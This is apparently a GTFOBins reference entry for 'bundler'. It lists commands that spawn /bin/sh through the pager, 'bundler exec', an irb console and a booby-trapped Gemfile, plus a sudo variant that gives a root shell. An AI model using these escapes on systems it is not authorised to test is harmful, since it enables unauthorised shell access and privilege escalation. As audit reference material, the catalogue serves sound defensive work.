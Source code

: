 functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundler help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundler exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundler install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundler help
        !/bin/sh
---
